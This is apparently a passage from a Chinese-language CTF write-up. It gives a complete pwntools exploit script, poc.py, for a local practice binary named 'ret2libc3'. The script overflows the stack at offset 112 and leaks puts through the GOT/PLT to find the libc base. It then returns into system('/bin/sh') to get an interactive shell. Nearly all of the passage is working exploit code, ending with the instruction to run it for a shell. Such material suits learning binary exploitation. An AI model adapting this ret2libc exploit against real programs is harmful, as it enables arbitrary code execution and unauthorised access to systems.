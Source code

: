 ```python
接下来开始构造poc.py文件
from pwn import *
context(arch="i386", os="linux", log_level="debug")  # 设置环境为 i386 架构，Linux 系统，并打开调试日志

p = process("./ret2libc3")  # 启动目标程序
e = ELF("./ret2libc3")      # 加载目标程序的 ELF 文件，方便提取符号表信息

# 获取目标程序中的函数和符号地址
puts_plt_addr = e.plt["puts"]         # puts@plt 地址，用于调用 puts 函数
puts_got_addr = e.got["puts"]         # puts@got 地址，存放 puts 函数的实际地址
start_addr = e.symbols["_start"]      # _start 地址，用于返回程序起始点重新运行，最好别设置成main，因为main也需要自带一些函数，而_start的话是操作系统层面重新执行的入口地址，则不会出现这些问题。

# 构造第一个 payload，用于泄露 puts 地址
offset = 112                          # 栈溢出偏移，覆盖到返回地址
payload1 = (
    offset * b'A' +                   # 填充缓冲区，覆盖到返回地址
    p32(puts_plt_addr) +              # 返回地址：跳转到 puts@plt
    p32(start_addr) +                 # 返回到 _start，用于重新执行程序
    p32(puts_got_addr)                # puts 的参数：传递 GOT 表中的 puts 地址
)

# 发送第一个 payload
p.sendlineafter("Can you find it !?", payload1)  # 等待特定提示信息后发送 payload1

# 接收泄露的 puts 地址
puts_addr = u32(p.recv()[:4])         # 接收 puts 函数的实际地址（4 字节，LE 格式）

# 加载 libc 文件，用于计算基地址和其他符号地址
libc = ELF("/lib/i386-linux-gnu/libc.so.6")      # 加载目标环境下的 libc 文件
base_addr = puts_addr - libc.symbols["puts"]    # 计算 libc 的基地址
system_addr = base_addr + libc.symbols["system"]  # 计算 system 函数的地址
bin_sh_addr = base_addr + next(libc.search(b"/bin/sh"))  # 计算 "/bin/sh" 字符串地址

# 构造第二个 payload，用于执行 system("/bin/sh")
payload2 = (
    offset * b'A' +                   # 填充缓冲区，覆盖到返回地址
    p32(system_addr) +                # 返回地址：跳转到 system 函数
    p32(1) +                          # 返回地址（这里无意义，可以是任意值）
    p32(bin_sh_addr)                  # system 的参数："/bin/sh" 的地址
)

# 发送第二个 payload
p.sendline(payload2)                  # 发送 payload2 执行 system("/bin/sh")
p.interactive()                       # 进入交互模式，获得 shell
```

```
运行即可获得shell
python poc.py
```
